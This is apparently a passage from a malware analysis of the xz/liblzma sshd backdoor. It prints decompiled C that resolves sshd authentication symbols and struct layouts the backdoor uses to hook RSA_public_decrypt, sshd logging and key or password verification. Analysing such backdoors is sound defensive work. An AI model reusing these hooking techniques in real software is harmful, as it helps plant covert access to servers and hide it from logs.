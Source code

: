 ```c
              sshd_elf,
              &string_refs,
              &g_ctx_p->sshd_main_verified) )
      {
        if ( get_checked_reloc_for_symbol(
                I2S_mm_answer_keyverify_,
                &ssh_ctx->mm_answer_keyverify_start,
                &ssh_ctx->mm_answer_keyverify_end,
                &ssh_ctx->reloc_for_mm_answer_keyverify,
                sshd_elf,
                &string_refs,
                &g_ctx_p->sshd_main_verified) == Error )
        {
          ssh_ctx->mm_answer_keyverify_start = 0LL;
          ssh_ctx->mm_answer_keyverify_end = 0LL;
          ssh_ctx->reloc_for_mm_answer_keyverify = 0LL;
        }
      }
      else
      {
        ssh_ctx->mm_answer_keyallowed_start = 0LL;
        ssh_ctx->mm_answer_keyallowed_end = 0LL;
        ssh_ctx->reloc_for_mm_answer_keyallowed = 0LL;
      }
    }
...
```

With this code, the backdoor populates two data structures and the global context used in the main hook function (`RSA_public_decrypt_hook -> hook_main`):

```c
struct ssh_logs
{
  uint32_t used;
  uint32_t mm_log_hander_checked;
  uint32_t value0;
  uint32_t value1;
  char *str__s_key_ptr;                 ///< %s key
  char *str__connection_closed_by_ptr;  ///< Connection closed by %s
  char *str_preauth_ptr;                ///< preauth]
  char *str_authenticating_ptr;         ///< authenticating
  char *str_user_group_ptr;             ///< user:group %u:%u
  char *func_mm_log_hander_ptr;         ///< mm_log_hander() ptr
  uint64_t mm_log_hander_hook_p;
  uint64_t mm_log_hander_original;
  uint64_t mm_log_hander_hook;
  void *func_sshlogv;                   ///< sshlogv()
  void *handle_logging;                 ///< 0xA3D0 func
  uint64_t value4;                      ///< 0xA40
};

struct ssh_ctx
{
  uint32_t mm_answer_keyverify_value;   ///< 0x100000001
  uint32_t str_unknown_ptr_is_null;
  uint32_t mm_answer_keyverify_is_not_null;
  uint32_t value0;
  Status (__fastcall *change_unknown_to_password)(uint64_t flag0, int fd, uint64_t flag1);
  void *mm_answer_keyallowed_hook;
  Status (__fastcall *change_unknown_to_publickey)(uint64_t flag, char *buffer);
  uint8_t *mm_answer_authpassword_start;
  uint8_t *mm_answer_authpassword_end;
  uint8_t *reloc_for_mm_answer_authpassword;
```